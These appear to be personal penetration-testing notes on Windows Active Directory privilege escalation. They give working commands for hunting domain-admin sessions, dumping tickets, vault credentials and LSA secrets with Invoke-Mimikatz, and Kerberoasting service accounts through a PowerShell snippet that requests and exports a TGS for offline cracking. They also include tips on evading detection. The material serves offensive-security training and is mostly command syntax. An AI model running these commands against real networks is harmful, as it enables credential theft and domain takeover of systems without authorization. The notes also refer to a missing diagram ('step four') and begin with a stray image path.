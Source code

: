 # Domain Privilege Escalation

⭐ Keep your eyes on the goals of your operation, and avoid getting DA privileges if it is not required. This will greatly help in avoiding detection.

## Credential Exfiltration

### Session Hijack

- if user has active session in workstation where you have local admin, you can obtain their TGT (even if they are a domain admin)
    - can be found with `Invoke-UserHunter -GroupName "<GROUP_NAME>"`
        - add the `-CheckAccess` parameter to check if you have local admin access
    - works by using `Get-NetGroupMember` and `Get-NetSession`
- you can then extract the user’s TGT with `Invoke-Mimikatz –Command '"sekurlsa::tickets /export"’`
- find which computers a DA has a session on with `Find-DomainUserLocation`

### Other

These are several different methods to exfiltrate credentials

| Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"' | Extract creds from https://attack.mitre.org/techniques/T1555/004/ (can contain creds used for scheduling tasks, web credentials, etc.) |
| --- | --- |
| Invoke-Mimikatz -Command '"kerberos::list /export"' | Extract tickets |
| Invoke-Mimikatz -Command '"lsadump::lsa /patch"' | Dump local creds |
- note the vault exfiltration technique is highly important as this may reveal the creds of additional users

## Kerberoast

- effective as service accounts are often ignored and passwords are rarely changed
    - note machine accounts have 120 character passwords
    - kerberoast is only effective against users who are being used as service accounts
        - can be found with `Get-NetUser -SPN` or `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
- service accounts typically have privileged access


- in step four, the TGS is saved to disc
- because TGS encrypted with service account hash, you can try to perform an offline password attack
- quiet as only one event (4769) is logged
- if successful, you can perform a silver ticket attack

************************Exploitation************************

```powershell
# Obtain TGS
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SERVICE>/follow.0xd4y_notes.local"

### Check TGS was granted by running klist

# Save TGS to disk:
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
